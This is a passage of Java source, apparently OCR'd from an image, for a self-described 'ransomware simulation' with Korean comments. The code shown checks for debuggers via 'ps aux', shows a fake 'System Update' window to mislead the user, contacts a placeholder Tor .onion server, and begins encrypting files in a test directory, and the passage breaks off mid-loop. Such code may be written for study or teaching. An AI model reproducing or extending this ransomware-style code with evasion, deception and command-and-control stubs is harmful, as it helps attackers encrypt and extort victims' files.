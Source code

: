 ```java
            System.out.println("Available Processors: " + Runtime.getRuntime().availableProcessors());
            System.out.println("Free Memory: " + Runtime.getRuntime().freeMemory());

            String[] commands = {"/bin/sh", "-c", "ps aux | grep java"};
            Process process = Runtime.getRuntime().exec(commands);

            try (BufferedReader reader = new BufferedReader(new InputStreamReader(process.getInputStream()))) {
                String line;
                while ((line = reader.readLine()) != null) {
                    if (line.contains("debug")) {
                        System.out.println("Debugger detected!");
                    }
                }
            }

        } catch (Exception e) {
            System.err.println("Environment check failed: " + e.getMessage());
        }
    }

    // 가짜 업데이트 화면 표시
    public static void showFakeUpdateScreen() {
        JFrame frame = new JFrame("System Update");
        frame.setDefaultCloseOperation(JFrame.EXIT_ON_CLOSE);
        frame.setSize(300, 100);

        JLabel label = new JLabel("System Update in Progress...", SwingConstants.CENTER);
        frame.add(label);

        frame.setVisible(true);

        new Thread(() -> {
            try {
                Thread.sleep(10000);
                frame.dispose();
                System.out.println("Fake update completed.");
            } catch (InterruptedException e) {
                e.printStackTrace();
            }
        }).start();
    }

    public static void main(String[] args) {
        try {
            System.out.println("Starting ransomware simulation...");

            // 환경 체크
            checkEnvironment();

            // Tor 네트워크 통신
            communicateWithTorServer("http://example.onion");

            // 가짜 업데이트 화면 표시
            showFakeUpdateScreen();

            // 암호화 테스트
            String directoryPath = "./test_directory";
            SecretKey secretKey = generateKey();
            List<File> files = findFiles(directoryPath);

            for (File file : files) {
```